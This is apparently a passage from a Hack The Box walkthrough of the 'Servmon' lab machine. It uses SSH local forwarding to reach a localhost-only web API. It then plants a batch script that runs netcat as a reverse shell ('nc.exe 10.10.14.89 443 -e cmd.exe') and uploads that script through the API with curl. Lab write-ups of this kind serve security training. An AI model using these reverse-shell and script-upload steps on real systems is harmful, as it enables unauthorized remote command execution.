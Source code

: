 ### SSH Local Forwarding
***
To bypass the localhost restriction, we use the local forwarding to forward a port from Servmon machine to my attacking machine.

Reference - ssh tunneling : <https://www.ssh.com/ssh/tunneling/example>

```terminal
$ ssh -l nadine 10.10.10.184 -L 1234:127.0.0.1:8443
```

We have now access on `https://127.0.0.1:1234` and the possibility to exploit Servmon machine.

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-sshforward.png" | relative_url }})

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-access.png" | relative_url }})


#### Check requirement modules :

Two modules are correctly enabled.

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-requirement1.png" | relative_url }})

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-requirement2.png" | relative_url }})

#### Put evil script and nc tool :

From `c:\temp` we add our script. NC tool is also in place.

```terminal
$ copy con servmon.bat
@echo off
c:\Temp\nc.exe 10.10.14.89 443 -e cmd.exe
```

#### Setup listener on attacking machine :


```terminal
$ sudo nc -lnvp 443
```


### Run Arbitrary command through API
***
All action with API. Web interface is so break ...

We add our script :

```terminal
$ curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/servmon.bat --data-binary "c:\Temp\nc.exe 10.10.14.89 443 -e cmd.exe"
$ curl -s -k -u admin https://localhost:8443/api/v1/scripts/ext/scripts/servmon.bat
```

![Desktop View]({{ "/assets/img/servmon/HTB-Images-Servmon-addscript.png" | relative_url }})
